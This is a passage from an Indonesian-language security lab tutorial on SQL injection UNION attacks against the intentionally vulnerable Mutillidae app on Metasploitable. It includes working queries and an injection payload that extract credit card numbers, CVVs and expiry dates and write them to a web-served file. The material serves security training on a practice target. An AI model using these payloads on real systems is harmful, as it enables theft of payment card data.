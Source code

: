 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```

### \# SQL Injection (Union with Curl)

* **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Masukkan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/var/www/html/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```